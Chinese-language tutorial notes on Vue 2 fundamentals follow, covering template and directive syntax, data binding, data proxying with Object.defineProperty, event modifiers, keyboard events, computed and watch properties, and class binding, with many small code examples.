

Vue基本使用
[TOC]
教程链接：https://www.bilibili.com/video/BV1Zy4y1K7SH
课程简介
vue2 + vue3
vue基础vue-clivue-routervuexelement-uivue3
1.vue核心
1.1.vue简介
1.1.1.vue官网使用指南
教程：https://cn.vuejs.org/v2/guide/
- 入门教程
api：https://cn.vuejs.org/v2/api/- api是在实际开发中，遇到问题去查阅时，逐渐熟悉的
1.1.2.介绍与描述
基本概念：一套用于构建用户界面的渐进式Javascript框架
我的理解：
- 把数据给vue，vue给你界面
- 何谓渐进式：根据项目的复杂程度，引入不同的库（逐渐递进）
- 简单应用：只需一个轻量小巧的核心库
- 复杂应用：可以引入各式各样的
vue插件
发展历史：
作者：Evan You
- 2013年，受到
Angular框架的启发，尤雨溪开发出了一款轻量框架——Seed。同年12年，Seed更名为Vue，版本为0.6.0 - 2014年，
Vue正式对外发布，版本号0.8.0。Taylor otwell在Twitter上发布动态，说自己正在学习Vue.js - 2015年，10月27日，正式发布
Vue1.0.0 Evangelion（新实际福音战士） - 2016年，10月1日，正式发布
Vue2.0.0 Ghost in the shell（攻壳机动队） - 2020年，9月18日，正式发布
Vue3.0.0 One Piece（海贼王）
我的理解：
- 后起之秀，生态完善，已成为国内前端工程师必备技能
1.1.3.vue的特点
- 采用组件化模式，提高代码复用率，且代码更好维护
- 声明式编码，让编码人员无需直接操作
DOM，提高开发效率
1.1.4.搭建vue开发环境
- 直接下载并用
<script>标签引入：
1 | <script src ="./js/vue.js"></script> |
引入后，Vue 会被注册为一个全局变量，全局会多了一个Vue的构造函数。
可以在控制台输出
开发版本：https://cn.vuejs.org/js/vue.js
生产版本：https://cn.vuejs.org/js/vue.min.js
- 下载
vuedevtools，可以搜索直接下载插件 - 修改
Vue.config配置，关掉控制台关于生产环境的提示
Vue.config.productionTip，设置为 false 以阻止 vue 在启动时生成生产提示。
1.2.初识vue
1.2.1.HelloWorld小案例
vue帮我们构建界面，界面放在哪个位置呢？
需要准备一个容器（一个dom节点）
1
2
3<div id="root">
</div>容器内部不应该写任何东西
但我们先写点东西在里面
1
2
3<div id="root">
<h2>Hello World</h2>
</div>
通过
new调用全局的Vue构造函数，创建Vue的实例对象1
2// 创建Vue实例
const x = new Vue()创建
Vue实例时，有个问题，需不需要传参数，传几个呢？Vue的构造函数只接受一个参数，参数类型为对象- 这种对象，一般称为
配置对象key一般都是固定的
Vue构造函数的的第一个配置：el，用于指定当前Vue实例为哪个容器服务- 值通常为
css选择器字符串，Vue实例自己去找 - 也可以通过
document.getElementById找到后，再传给Vue实例
1
2
3const x = new Vue({
el: "#root"
})- 通过
el配置，指定id为root的容器，被Vue实例管理- 我的理解：拿到
dom节点对象传给js（Vue实例），后续数据渲染结果，都基于该dom节点对象
- 我的理解：拿到
- 此时
Vue实例对象通过el管理容器后，但我们还没有用到Vue
- 值通常为
需求：界面显示的
Hello不变，但World是变化的我们把容器里面，变化的数据，交给
Vue实例来保管只需要维护好数据，省去了自己操作
dom使用
data配置项，存储数据，供el指定的容器使用（容器外面使用，是没用的），值暂时写为一个对象1
2
3
4
5
6// 存储用户自定义数据
// 值暂时写为一个对象
data: {
name : 'xiaoming',
age: 18
}容器怎么拿到，存在
data配置项里面的数据呢？使用
插值语法：{{name}}1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16<body>
<div id="root">
<h2>Hello {{name}}</h2>
</div>
<script src ="./js/vue.js"></script>
<script>
Vue.config.productionTip = false
new Vue({
el: "#root",
data: {
name: 'sai'
}
})
</script>
</body>页面效果：

并不需要一个变量，来存储
Vue实例对象，直接new Vue()即可
1.2.2.小结：分析Helloworld小案例
- 想让
Vue工作，就必须创建一个Vue实例，且要传入一个配置对象 root容器里面的代码依然符合html规范，只不过混入了一些特殊的Vue语法root容器里面的代码被称为Vue模板- 模板的解析流程：先有的容器，然后有
Vue实例，当Vue实例开始工作时，读取el配置，拿到了容器 Vue实例开始解析包含Vue特殊语法的字符集，用data里的数据进行替换Vue设计的特殊语法- 最后生成全新的
id为root的html片段，替换掉之前的容器，重新放到页面上 - 容器的作用
- 为
Vue实例提供模板 - 给
Vue的解析结果提供一个呈现的位置
- 为
- 模板的解析流程：先有的容器，然后有
- 真实开发中只有一个
Vue实例，并且会配合着组件一起使用 - 差值语法中要写
js表达式，差值语法可以读取到data中的所有属性 data中的数据发生变化时，所有用到这些数据的页面，也会全部更新- 注意区分：
js表达式和js代码（语句）表达式：一个表达式会生成一个值，可以放在任何一个需要值的地方
aa+bdemo(1)x === y ? 'a' : 'b'
js代码（语句）if(){}for(){}
1.3.模板语法
1.3.1.效果
差值语法
1 |
|

指令语法
1 | <h1>指令语法</h1> |

1 |
|
当使用v-bind时，右边的代码会当做表达式来执行，url就表示了读取url变量值，可以简写成:
差值语法通常用来指定标签体内容
v-bind通常用来指定标签属性内容
1.3.2.小结：模板语法
vue模板语法有两大类- 差值语法
- 功能：用于解析标签体内容
- 写法：
{{xxx}}xxx是js表达式，且可以直接读取到data中的所有属性
- 指令语法
- 功能：用于解析标签（包括：标签属性、标签体内容、绑定事件…）
- 举例：
v-bind:href="xxx"或简写成:href="xxx"，xxx同样要写js表达式- 且可以直接读取到
data中的所有属性 - 备注：
vue中有很多的指令，且形式都是：v-???，此时我们只是拿v-bind举个例子
- 且可以直接读取到
- 差值语法
1.4.数据绑定
vue中有2种数据绑定的方法
- 单向数据绑定（
v-bind）：数据只能从data流向页面 - 双向绑定（
v-bind）：数据不仅能从data流向页面，还可以从页面流向data- 双向绑定一般都应用在表单类元素（输入类元素）上，如
input、select v-model:value，可以简写成v-model，因为默认收集的就是value
- 双向绑定一般都应用在表单类元素（输入类元素）上，如
1.5.el与data的两种写法
vue实例上，带$符号的属性都是给开发者用的，并且实例的原型对象上，也有一堆可以使用的方法

1.5.1.el的$mount写法
我们可以用原型对象上的$mount来指定容器
1 |
|

1.5.2.data的函数式写法
1 |
|

注意如果data的函数的写法，不能写成箭头函数，否则this指向window，Vue实例是在window下的
箭头函数没有自己的this，会往外找
1 | const app = new Vue({ |

普通函数的简写：
1 | const app = new Vue({ |
1.5.3.小结：el与data的两种写法
data与el的两种写法
el有两种写法new Vue()是写在配置对象的el属性中- 拿到
Vue实例，通过原型对象的$mount指定：vm.$mount('#app')
data有两种写法- 对象式
- 函数式
- 学习组件时，必须使用函数式，否则不同组件的
data数据会共享 - 由
Vue实例管理的函数，一定不要写成箭头函数，否则this就不再指向Vue实例了
- 学习组件时，必须使用函数式，否则不同组件的
1.6.理解MVVM
1.6.1.MVVM
MVVM并不是vue独有的，这是一种设计思想
M，模型Model：对应data中的数据V，视图View：模板VM，视图模型ViewModel：Vue实例对象

前端框架设计的主流思想就是
准备好数据，写好模板代码，然后让框架开始工作，就可以让数据和模板建立起连接
并且框架会保证，数据不管怎么变，模板对应的页面都会自动更新
1.6.2.模板语法补充
注意观察vm，写在data中的数据，最终是出现在了vm上

这里(...)表示经过了数据代理，后面会讲到，鼠标点击即可查看具体内容
插值语法{{xxx}}还可以写什么呢？
只要是
vm身上有的属性，都可以写1
2
3
4<h2>{{message}}</h2>
<h2>{{$options}}</h2>
<h2>{{$emit}}</h2>
<h2>{{_c}}</h2>所以插值语法的
xxx并不是只可以写data里面的值，是data里的值最终到了vm实例对象上，只要是实例对象的属性，插值语法就都可以写
1.6.3.小结：MVVM
MVVM并不是vue独有的，这是一种设计思想
M，模型Model：对应data中的数据V，视图View：模板VM，视图模型ViewModel：Vue实例对象
观察发现：
data中的所有属性，最后都出现在vm身上vm身上的所有属性，及Vue实例的原型对象上的所有属性，在Vue模板中都可以直接使用
1.7.数据代理
1.7.1.Object.defineProperty
功能：给对象添加属性用的
1 | let person = { |
此时person对象上，就有了age属性：

可枚举配置项
那么为什么不直接添加age属性呢咧？
仔细看（用谷歌浏览器看，之前的都是用的edge李浏览器）：

age的颜色，浏览器用另外一种颜色区分了，表示age属性是不参与遍历的（不可被枚举的）
使用Object.keys、for循环都是遍历不到的
1 | let person = { |

定义时，可以使用配置项enumerable，控制其属性是否可以枚举，默认值是false
1 | Object.defineProperty(person, 'age', { |
重新打印输出下，age的颜色已经恢复正常，表示是可以枚举的了：

可修改配置项
但是我们修改person.age = 19后重新打印下person，发现age并没有变化

使用配置项writable使新增的age属性可以修改：
1 | Object.defineProperty(person, 'age', { |
age的值已经可以修改了：

可删除配置项
我们删除下age属性，发现删除不了：

使用配置项configurable使新增的age属性可以删除：
1 | Object.defineProperty(person, 'age', { |
现在就可以删除age属性了

所以，使用Object.defineProperty可以对追加的属性，进行更多高级的限制
新场景需求
假设age依赖于num
1 | let num = 18 |
后期num变化的时候，我们希望person也跟着改变
但目前是没有的

因为代码执行过一遍之后，是不会再重新执行的
除非你这样手动再赋值一下：

但我们希望这一过程是自动的，引入下一小节
get()配置项
当有人读取person的age属性时，get函数(getter)就会被调用，且返回值就是age的值
1 | let num = 19 |
person对象：

此时person对象上有age属性了，还有一个为age属性服务的getter函数
当鼠标悬浮在(...)上时，提示invoke property getter，中文翻译表示调用属性 gettter，意思就是说age的值，调用了getter这个属性

要想看age的值，必须用鼠标点一下(...)，当我们点这么一下的时候，会触发getter函数的调用

此时我们可以完善一下，上一小节的需求，这里return的就是num变量：
1 | let num = 19 |

此时修改num的值之后，再次访问person对象时，会调用age的getter，此时拿到的就是num更新后的值
所以getter函数的返回值，一般是写新增属性依赖的其他变量
简写：
1 | Object.defineProperty(person, 'age', { |
set()配置项
当有人修改person的age属性时，set函数(setter)就会被调用，且会收到修改的具体值
1 | let num = 18 |

此时我们修改age的属性值，setter函数被调用了，我们也拿到了修改的值
但person的age并没有变化，我们只需要将修改的value赋值给num即可
1 | Object.defineProperty(person, 'age', { |

我们将修改后的值赋值给num后，下次再读取age的属性时，就会调用getter获得最新的值
变量number和对象person是两个东西，通过defineProperty将这两者关联起来
理解数据代理
通过一个对象代理对另一个对象中属性的操作（读/写）
- 有一个对象
obj，它有一个属性x，obj自身对x可以进行任务操作 - 但我希望，可以通过另一个对象
obj2来修改obj中的x属性
实现一个最简单的数据代理：
1 | let obj = {x: 200} |
这样obj2就对obj的x属性实现了代理，可以通过obj2来读写obj上的x属性

Vue中的数据代理
如图可以看到，vue实例上，有data里面的值，就是通过数据代理得到的

现在我们来验证一下
验证getter:
控制台打印vm.name，输出的就是定义的data里面的结果，说明getter是通的
验证setter：
有一点已经明确的是，vm实例对象上，肯定有一个地方存着data属性的值，不然getter/setter的时候没地方去操作，这个属性值是vm._data。现在要做的是，就是证明vm实例上的_data，就是我们自己定义的data
将data抽离出来，这样我们在操作完vm._data后，也可以看到自己定义的data有没有变了
1 | let data = { |

结果发现，我们修改vm实例上的_data后，和自定义data比较后，是相等的。说明自定义data也变化了，至此，setter也通了
1.7.2.小结：数据代理

Vue中的数据代理- 通过
vm对象来代理data对象中的属性的操作（读/写）
- 通过
Vue中数据代理的好处- 更加方便的操作
data中的数据
- 更加方便的操作
- 基本原理
- 通过
Object.defineProperty()把data对象中所有属性添加到vm上 - 为每一个添加到
vm上的属性，都指定一个getter/setter - 在
getter/setter内部去操作（读/写）data中对应的属性
- 通过
1.7.3.小问题
我们仔细观察下vm._data

的确，它就是我们自定义的data
但是咧，vue还帮我们做了数据劫持，因为当vm._data = 'modify'时，vue还要去更新页面，所以要能够监听到_data的变化
关于数据劫持，后面会详细说明
1.8.事件处理
1.8.1.methods属性配置回调函数
容器上事件的回调函数，应该写在vue实例对象的配置对象里，否则会报错
1 |
|
报错信息：

通过methods属性，配置事件的回调：
1 | const vm = new Vue({ |
效果：

1.8.2.回调函数的参数
默认第一个参数，是event对象，原生点击事件就有
1 | methods: { |

一般用event表示：
1 | methods: { |
1.8.3.回调函数中的this指向
this指向vm
methods配置项里，定义的回调函数如果写的是正常的函数，this指向vue实例对象
1 | methods: { |

注意：showInfo是点击事件对应的回调，vue实例已经创建了，所以可以拿到vm
this不指向vm
如果回调函数写成了箭头函数，
this会向外找，指向window，因为箭头函数没有自己的this指向1
2
3
4
5
6
7methods: {
showInfo: () => {
console.log('我是this:', this)
console.log('我是vm:', vm)
console.log(this === vm)
}
},
所以，所有被
vue实例管理的函数，最好都写成普通函数，不要写成箭头函数如果回调函数内部还嵌套了函数，则内部的函数中
this的指向，也指向window1
2
3
4
5
6
7
8
9methods: {
showInfo(){
function inner() {
console.log('我是回调函数嵌套函数内部的this:', this)
console.log(this === vm)
}
inner()
}
},
一般我们会定义一个变量，先存储
this，然后在内部函数中使用这个变量，这样在内部函数中，就可以获取到vm了1
2
3
4
5
6
7
8
9
10methods: {
showInfo(){
const self = this
function inner() {
console.log('我是回调函数嵌套函数内部的self:', self)
console.log(self === vm)
}
inner()
}
},
1.8.4.v-on的简写
v-on:click="showInfo"等价于@click="showInfo"
1.8.5.点击事件中回调函数的传参
传递参数的基本语法
1 |
|
效果：

event对象丢失的解决办法
我们多接收几个参数：
1 | methods: { |

发现event并没有获取到
vue约定，在页面传参数时，默认在最后一个参数传入关键词$event，就可以获取到event对象了
并且在回调函数中，event参数是紧跟在自定义参数后面的，和怎么写无关：
1 |
|
效果：

回调函数的几种写法
@click="showInfo"当没有括号，回调函数指定
$event形参时，打印结果是event对象1
2
3showInfo($event){
console.log($event) // event对象
}
@click="showInfo()"当有括号但没有传递实参，回调函数指定
$event形参时，打印结果是undefined1
2
3showInfo($event){
console.log($event) // undefined
}
@click="showInfo($event)"当有括号且显示指定
$event实参，回调函数指定$event形参时，打印结果是event对象1
2
3showInfo($event){
console.log($event) // event对象
}
@click="showInfo(666)"当有括号且指定其他实参，并没有指定
$event实参，回调函数的形参除了匹配实参还额外指定$event形参时，event对象会丢失1
2
3showInfo(value, $event){
console.log(value, $event) // 666 undefined
}
@click=showInfo(666, $event)当有括号且指定其他实参，并显示指定
$event实参，回调函数匹配形参时，可以打印出event对象1
2
3showInfo(value, $event){
console.log(value, $event) // 666 event对象
}
回调函数挂载在vm实例对象上
如图可以看到，回调函数也是在vm上的

不要自作聪明，在data配置项中去写函数，那样的话，vue会给函数写设置数据劫持和数据代理，没有必要
如下是错误的：
1 |
|


1.8.6.小结：事件处理
事件的基本使用
- 使用
v-on:xxx或@xxx绑定事件，其中xxx为事件名 - 事件的回调需要配置在
methods对象中，最终在vm上 methods中配置的函数，不要用箭头函数，否则this的指向就不是vm了methods中配置的函数，都是被vue所管理的函数，this指向vm或组件实例对象@click="demo"和@click="demo($event)"效果一致，但后者可以传参
1.9.事件修饰符
1.9.1.prevent
阻止绑定事件的标签上的默认事件
存在默认事件的标签：
<a href="http://www.baidu.com"></a>：默认事件为跳转链接1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
<html lang="en">
<head>
<meta charset="UTF-8">
<title>Title</title>
<script src="js/vue.js"></script>
</head>
<body>
<div id="app">
<h2>{{name}}</h2>
<a href="http://www.baidu.com" @click="showInfo">点击提示信息</a>
</div>
<script>
Vue.config.productionTip = false
const vm = new Vue({
el: '#app',
data: {
name: 'sai',
},
methods: {
showInfo(){
alert('hello')
}
}
})
</script>
</body>
</html>给
a标签绑定点击事件，页面点击时，除了会调用回调函数（打印hello），还会跳转链接（跳转到baidu）为了阻止
a标签点击事件的默认行为，可以调用点击事件event对象的preventDefault方法：1
2
3
4showInfo(e){
e.preventDefault() // 阻止a标签点击事件的默认（跳转）行为
alert('hello')
}语法糖：
1
<a href="http://www.baidu.com" @click.prevent="showInfo">点击提示信息</a>
1.9.2.stop
阻止事件冒泡
1 |
|
由于事件冒泡，click事件的回调函数被执行了两次
阻止事件冒泡：
1 | showInfo(e){ |
语法糖：
1 | <div class="demo" @click="showInfo"> |
1.9.3.once
事件只触发一次
1 | <button @click.once="showInfo">click</button> |
页面只会打印一次，第二次以后单击事件就不会调用回调函数了
1.9.4.capture
使用事件的捕获模式
事件的处理默认是在冒泡阶段：
1 | <!DOCTYPE html> |
点击div2时，按照冒泡机制，先输出的是2：

我现在希望，按照捕获机制处理事件的回调：
1 | <div class="box1" @click.capture="showInfo(1)">div1 |
点击div2，打印如下：

1.9.5.self
只有event.target是当前操作的元素时才触发事件
我们先打印下冒泡时的e.target，操作点击的是button，打印的就是button元素
1 |
|
由于事件冒泡，会打印两次

现在给外层元素加上.self事件修饰符
1 | <div class="box1" @click.self="showInfo"> |
点击button的打印结果：

由于event.target是button，所以绑定在div的事件不会被执行
1.9.6.passive
事件的默认行为立即执行，无需等待事件回调执行完毕
先给ul绑定scroll滚动条滚动事件，经观察，滚轮每使滚动条滚动一下，回调函数会调用9次，经验证是滚动条走了9个像素（不同的浏览器走的像素值不一样，edge走了9像素，chrome走了12个像素）
ul获得焦点后，scroll事件可以使用小键盘的上下键来控制
scroll事件滚动条一旦到了末端，再按滚轮时，对应的事件回调不再触发
1 |
|
效果：

和滚动条类似，还可以给鼠标滚轮，绑定滚动事件
1 | <ul class="list" @wheel="showInfo"> |
鼠标滚轮每滚动一次，调用一次回调，当滚动条到达末端，再按滚轮时，事件回调仍会触发
引出passive：如果滚动事件的回调是执行了很复杂（耗时）的运算，那么页面滚动时，可能要等到计算完之后才会滚动（执行默认行为）
1 | showInfo() { |
我们可以添加passive修饰符，优先执行默认行为，再执行事件回调，这样可以保证页面不卡顿
1 | <ul class="list" @wheel.passive="showInfo"> |
但是要注意，不是所有的事件都会存在回调函数先调用，后执行默认行为的问题，上面的案例中scroll事件就不会卡顿
1.9.7.小结：事件修饰符
prevent：阻止绑定事件的标签上的默认事件- 阻止元素的默认回调
stop：阻止事件冒泡- 只希望内层元素的回调被执行
once：事件只触发一次- 回调函数只执行一次
capture：使用事件的捕获模式- 希望外层元素的回调优先执行
self：只有event.target是当前操作的元素时才触发事件- 只发生在自身时执行回调（忽略捕获/冒泡）
passive：事件的默认行为立即执行，无需等待事件回调执行完毕- 优先执行元素的默认回调
- 修饰符可以连续写
@click.stop.prevent = "showInfo"
1.10.键盘事件
使用：
使用
vue提供的别名：@keyup.enter = "showInfo"- 额外注意
tab：按下时就会切换焦点，不适合用keyup，得用keydown
- 额外注意
使用
js原生提供的名称：@keyup.Shift = "shoInfo"- 如果按键的
key是单词组成，绑定事件时，需要都转为小写，并且用-分隔：@keyup.caps-lock = "showInfo" - 有些按键是不可以绑定事件的
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
<html lang="en">
<head>
<meta charset="UTF-8">
<title>Title</title>
<script src="js/vue.js"></script>
<style>
</style>
</head>
<body>
<div id="app">
<h2>{{name}}</h2>
<input type="text" @keyup="showInfo">
</div>
<script>
Vue.config.productionTip = false
const vm = new Vue({
el: '#app',
data: {
name: 'sai',
},
methods: {
showInfo(e) {
console.log(e.key, e.keyCode)
}
}
})
</script>
</body>
</html>
- 如果按键的
系统修饰键（用法特殊）：
ctrl、alt、shift、meta- 配合
keyup使用：按下修饰键的同时，再按下其他键，事件才被触发 - 配合
keydown使用：正常触发事件
- 配合
也可以使用
keyCode去指定具体的按键（不推荐）MDN上已经移除该特性了- 不同键盘上的
keyCode对应的实际按键可能不一样
小结：键盘事件
Vue中常用的按键别名：- 回车：
enter - 删除：
delete，捕获删除和退格键 - 退出：
esc - 空格：
space - 换行：
tab，搭配keydown - 上：
up - 下：
down - 左：
left - 右：
right
- 回车：
Vue未提供别名的按键，可以通过按键原始key值去绑定，但注意要转为kebab-case（短横线命名）系统修饰键（用法特殊）：
ctrl、alt、shift、meta配合
keyup使用：按下修饰键的同时，再按下其他键，事件才被触发，- 系统修饰符后面，可以再指定
其他键：@keyup.ctrl.y = "showInfo"
- 系统修饰符后面，可以再指定
配合
keydown使用：正常触发事件
也可以使用
keyCode去指定具体的按键（不推荐）Vue.config.keyCode.自定义键名 = 键码，可以去定制按键别名
1.11.计算属性与监视属性
1.11.1.计算属性
1.11.1.1.小案例
需求一：拼接姓名
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
<html lang="en">
<head>
<meta charset="UTF-8">
<title>Title</title>
<script src="js/vue.js"></script>
<style>
</style>
</head>
<body>
<div id="app">
<h2>{{name}}</h2>
姓：<input type="text" v-model="firstName"><br/><br/>
名：<input type="text" v-model="lastName"><br/><br/>
全名：<span>{{firstName}} - {{lastName}}</span>
</div>
<script>
Vue.config.productionTip = false
const vm = new Vue({
el: '#app',
data: {
name: 'sai',
firstName: '张',
lastName: '三'
},
})
</script>
</body>
</html>
需求二：不论姓输入多少，只取前3位，之后再拼接
1
全名：<span>{{firstName.slice(0,3)}} - {{lastName}}</span>

改进：
我们在插值语法里，写了太多的内容，需要封装一下
先使用
methods进行封装1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
<html lang="en">
<head>
<meta charset="UTF-8">
<title>Title</title>
<script src="js/vue.js"></script>
<style>
</style>
</head>
<body>
<div id="app">
<h2>{{name}}</h2>
姓：<input type="text" v-model="firstName"><br/><br/>
名：<input type="text" v-model="lastName"><br/><br/>
全名：<span>{{fullName()}}</span>
</div>
<script>
Vue.config.productionTip = false
const vm = new Vue({
el: '#app',
data: {
name: 'sai',
firstName: '张',
lastName: '三'
},
methods: {
fullName() {
return this.firstName.slice(0, 3) + '-' + this.lastName
}
}
})
</script>
</body>
</html>
注意点：
只要
data中的数据发生改变，vue一定会重新解析模板，这样才可以知道模板中那些地方用到了姓，然后进行更新当读取到
插值语法里面写方法的情况，一定也会重新调用这样
姓每输入一次，插值语法里fullName方法就会被调用一次
1.11.2.2.计算属性
要显示的数据不存在，要通过计算得来
- 案例的需求二中的
取前3位，就是计算
- 案例的需求二中的
在
computed对象中定义计算属性计算属性，就是拿到你已经有的属性，去加工、计算成新的属性
- 也可以拿到
vuex里面的属性
- 也可以拿到
写法：
计算属性也是属性，但不能写在
data配置项中，需要新增computed配置项。那我们能不能像data里的那种写法呢？1
2
3
4
5
6
7
8
9
10
11const vm = new Vue({
el: '#app',
data: {
name: 'sai',
firstName: '张',
lastName: '三'
},
computed: {
fullName: 'test'
}
})这样写会提示缺少
getter、并且要写成函数的形式：
正确的写法：要把真正要计算的属性值，写成一个对象，对象里有一个
getget：当有人读取fullName时，get就会被调用，且返回值就是fullName的值1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
<html lang="en">
<head>
<meta charset="UTF-8">
<title>Title</title>
<script src="js/vue.js"></script>
<style>
</style>
</head>
<body>
<div id="app">
<h2>{{name}}</h2>
姓：<input type="text" v-model="firstName"><br/><br/>
名：<input type="text" v-model="lastName"><br/><br/>
全名：<span>{{fullName}}</span>
</div>
<script>
Vue.config.productionTip = false
const vm = new Vue({
el: '#app',
data: {
name: 'sai',
firstName: '张',
lastName: '三'
},
computed: {
fullName: {
get() {
console.log('fullName的get被调用了')
return 'getValue'
}
}
}
})
</script>
</body>
</html>
vm实例上_data有data里面定义的值，但是没有计算属性的值的，真正要用到计算属性时，会拿到_data里面的值经过一系列计算后的返回值，挂载在vm实例上。也就是说可以通过插值语法读取到，并且不需要显示调用get。get函数中的this，vue已经帮我们维护好了，指向的就是vm实例对象，完整写法：1
2
3
4
5
6fullName: {
get() {
console.log('fullName的get被调用了')
return this.firstName + '-' + this.lastName //
}
}我们多调用几次计算属性：
1
2
3全名：<span>{{fullName}}</span><br/><br/>
全名：<span>{{fullName}}</span><br/><br/>
全名：<span>{{fullName}}</span><br/><br/>不同于之前
methods的写法，这里控制台语句只打印了一次
是因为
vue帮我们把计算属性做了缓存，当模板解析遇到第二次fullName时，不会再走getter了， 而是直接取缓存里的值，那么缓存的值咋更新呢？所以计算属性的
get函数真正被调用的情况有两种：- 初次读取计算属性时
- 所依赖的数据发生变化时
set：如果不配置set，而去直接修改计算属性，会报如下错误：
所以当计算属性被修改时，调用
set，我们在set函数里更新计算属性的依赖1
2
3
4
5set(value) {
console.log('fullName的set被调用了')
this.firstName = value.split('-')[0]
this.lastName = value.split('-')[1]
}
1.11.2.3.计算属性简写形式
如果计算属性只考虑展示，确定不会修改的话，即只调用get时，可以简写：
fullName就不用再写成对象的形式，写成函数形式当作getter使用
1 | computed: { |
注意：插值语法里调用的时候，不要写成{{fullName()}}的形式，计算属性最终会在vm上挂载一个fullName属性的，直接写成{{fullName}}即可
1.11.2.4.小结：计算属性
- 定义：要用的属性不存在，要通过已有属性计算得来
- 原理：底层借助了
Object.defineproperty方法提供的getter和setter get函数什么时候执行- 初次读取时，会执行一次
- 当依赖的数据发生改变时会被再次调用
- 优势：与
methods实现相比，模板重复解析时，内部有缓存机制（复用），效率更高，调试方便 - 备注：
- 计算属性最终会出现
vm身上，直接读取使用即可 - 如果计算属性要被修改，那必须写
set函数去响应修改，且set中要修改计算属性依赖的相关变量
- 计算属性最终会出现
1.11.2.监视属性
1.11.2.1.小案例
点击按钮实现天气切换
1 |
|

1.11.2.2.监视属性
- 通过
vm对象的$watch()或watch配置来指定监视指定的属性 - 当属性发生变化时，回调函数自动调用，在函数内部进行计算
新需求：检测isHot的改变
要想实现监视，需要添加新的配置字段watch，值是一个对象，再添加需要监视的属性
handler配置项：
里面有一个handler函数：当isHot发生改变时，handler函数被调用
1 | watch: { |
并且，handler函数有两个参数，分别对应修改后的值、修改前的值
这样我们就可以对数据进行监测，再进行对比，然后实现对应的业务逻辑
1 | isHot: { |

immediate配置项：
immediate: true初始化加载时，就调用一下
handler函数
immediate: false- 默认值
除了data里面的属性可以监视，computed计算属性里面的属性，也是可以监视的
监视计算属性：
1 | computed: { |

第二种配置监视属性的方式：$watch()
前提：vm实例创建完毕后
vm.$watch(attr<string>, options<Object>)
1 | vm.$watch('isHot', { |
同样可以实现监视
如果attr监视的属性不存在时，不会报错，但没有意义
如果一开始就很明确监视的属性，可以在
watch配置项里进行监视如果是在后续的过程中，有了监视的需求，可以调用
$watch()进行监视
1.11.2.3.深度监视
现在有这么个数据结构：
1 | numbers: { |
想要监视numbers里面的a的变化
1 |
|

监视多级结构中某个属性的变化，需要写成numbers.a的形式，注意这里的key要写成原始带引号的形式
如果numbers里有一百个属性，我们不可能写一百遍
如果直接监视的是最外层的数据numbers，则修改里面的a或b的值时，vue认为numbers是没有变化的，因为其的数据地址并没有变，除非将numbers整个赋值替换
1 | watch: { |
执行numbers.a++或numbers.b++，并不会调用numbers的handler回调函数
只要新增deep配置项即可监视多级结构中所有属性的变化：
1 | watch: { |
小结：深度监视
Vue中的watch默认不监视对象内部值的改变（一层）- 配置
deep: true可以监测对象内部值的改变（多层） - 备注：
Vue自身是可以监测对象内部值的改变，但Vue提供的watch默认是不可以- 使用
watch时，根据数据的具体结构，决定是否采取深度监视
1.11.2.3.监视属性简写形式
如果不需要深度监视，也不需要初始化调用handler时，就可以采取简写形式
1 | watch: { |
将监视属性写成函数形式，就相当于handler函数
同理，$watch的可以简写成如下形式：
1 | vm.$watch('isHot', function (newValue, oldValue) { |
注意不要写成箭头函数，会导致this指向问题，再次说明所有由vue管理的函数，都需要写成普通函数
1.11.3.watch对比computed
用watch来实现拼接姓名的案例
1 |
|

此案例中，watch相比较于computed，使用命令式编码方式，重复代码较多，不够简洁
新需求：当firstName发生改变时，延迟一秒进行拼接
在watch里面可以非常畅快的进行异步操作：
1 | watch: { |
但是在computed里面是不行的
1 | computed: { |
这个就是基础的问题了，return是回调函数的返回值，此时fullName并没有返回值。
计算属性是不能开启异步任务来维护数据的
1.11.3.1.小结：watch对比computed
区别：
computed能完成的功能，watch都可以完成watch能完成的功能，computed不一定能完成，如watch可以有异步操作
原则：
- 所有被
Vue管理的函数，最好写成普通函数，这样this的指向才是vm或组件实例对象 - 所有不被
Vue管理的函数，如定时器的回调函数，ajax的回调函数，最好写成箭头函数，这样this的指向才是vm或组件实例对象
1.12.class与style绑定
- 在应用界面中，某些（个）元素的样式是变化的
class/style绑定，就是专门用来实现动态样式效果的技术
1.12.1.class绑定
给div.normal绑定样式：
1 |
|

1.12.1.1.字符串写法
适用于：样式的类名不确定，需要动态指定
基本流程
1.预先定义类名及样式
1
2
3.bg-green {
background-color: rgba(116, 236, 180, 0.56);
}2.定义变量，值为第一步的类名
1
2
3data: {
bgGreen: 'bg-green'
},3.使用
v-bind绑定class，值为定义的变量1
<div class="normal" :class="bgGreen"></div>
效果：

